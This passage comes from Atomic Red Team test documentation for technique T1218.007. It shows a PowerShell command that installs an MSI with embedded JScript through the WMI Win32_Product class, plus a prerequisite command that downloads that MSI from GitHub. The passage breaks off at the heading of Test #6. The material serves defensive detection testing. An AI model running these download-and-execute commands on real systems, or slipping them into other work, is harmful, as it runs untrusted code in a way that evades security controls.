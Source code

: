 <br/>
<br/>

## Atomic Test #5 - WMI Win32_Product Class - Execute Local MSI file with embedded JScript

Executes an MSI containing embedded JScript code using the WMI Win32_Product class

**Supported Platforms:** Windows

**auto_generated_guid:** 882082f0-27c6-4eec-a43c-9aa80bccdb30

#### Inputs:

| Name        | Description                                                                                                                     | Type   | Default Value                                                       |
| ----------- | ------------------------------------------------------------------------------------------------------------------------------- | ------ | ------------------------------------------------------------------- |
| msi_payload | MSI file to execute                                                                                                             | path   | PathToAtomicsFolder&#92;T1218.007&#92;bin&#92;T1218.007_JScript.msi |
| action      | Specifies the MSI action to perform: Install, Admin, Advertise. The included MSI is designed to support all three action types. | string | Install                                                             |

#### Attack Commands: Run with `powershell`!

```powershell
Invoke-CimMethod -ClassName Win32_Product -MethodName #{action} -Arguments @{ PackageLocation = '#{msi_payload}' }
```

#### Dependencies: Run with `powershell`!

##### Description: The MSI file must exist on disk at specified location (#{msi_payload})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{msi_payload}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{msi_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.007/bin/T1218.007_JScript.msi" -OutFile "#{msi_payload}"
```

<br/>
<br/>

## Atomic Test #6 - WMI Win32_Product Class - Execute Local MSI file with embedded VBScript

Executes an MSI containing embedded VBScript code using the WMI Win32_Product class

**Supported Platforms:** Windows
